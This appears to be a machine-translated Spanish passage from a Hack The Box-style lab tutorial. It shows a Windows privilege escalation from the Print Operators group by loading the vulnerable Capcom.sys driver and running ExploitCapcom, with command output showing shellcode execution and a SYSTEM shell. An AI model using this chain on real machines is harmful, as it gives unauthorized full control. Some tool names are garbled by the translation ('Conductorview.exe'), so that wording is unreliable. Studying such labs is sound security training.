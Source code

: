#### Verificar el controlador no está cargado

Usando Nirsoft's[Conductorview.exe](http://www.nirsoft.net/utils/driverview.html), podemos verificar que el controlador Capcom.sys no esté cargado.

  Operadores de impresión

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

#### Verificar el privilegio está habilitado

Ejecutar el`EnableSeLoadDriverPrivilege.exe`binario.

  Operadores de impresión

```cmd-session
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

#### Verificar el controlador Capcom está en la lista

A continuación, verifique que el controlador Capcom ahora esté en la lista.

  Operadores de impresión

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

#### Utilice la herramienta ExploitCapcom para aumentar los privilegios

Para explotar el capcom.sys, podemos usar el[Exploitcapcom](https://github.com/tandasat/ExploitCapcom)herramienta después de compilar con IT Visual Studio.

  Operadores de impresión

```powershell-session
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```
